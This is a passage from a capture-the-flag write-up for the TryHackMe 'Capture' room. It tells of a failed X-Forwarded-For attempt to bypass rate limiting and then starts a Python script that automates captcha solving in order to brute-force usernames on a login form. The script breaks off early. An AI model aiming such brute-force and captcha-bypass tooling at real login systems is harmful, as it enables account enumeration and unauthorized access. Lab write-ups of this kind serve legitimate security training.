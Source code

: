 I tried to use some headers like **`X-Forwarded-For`** to bypass the rate limiting, but no dice.

When we entered the correct captcha, it'll continue the login process:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Capture/images/Pasted%20image%2020230512153526.png)

**Luckly, we can write a Python script to automate that process!**
```py
#!/usr/bin/env python3
import requests
from threading import Thread
from time import sleep
from bs4 import BeautifulSoup
import re
import sympy

class Bruteforcer:
    def __init__(self, url, usernameWordlist):
        self.url = url
        self.usernameWordlist = usernameWordlist

    def enumerateUsername(self):
        listUsernames = self.readFile()
        listUsernamesLength = len(listUsernames)
        for index, username in enumerate(listUsernames):
            print(f'[*] Trying username: {username:20s} ({index + 1}/{listUsernamesLength})', end='\r')
            self.enumerateUsernameRequest(username)

            # thread = Thread(target=self.enumerateUsernameRequest, args=(username,))
            # thread.start()

            # # you can adjust how fast of each threads
            # sleep(0.1)

    def readFile(self):
        listUsernames = list()
```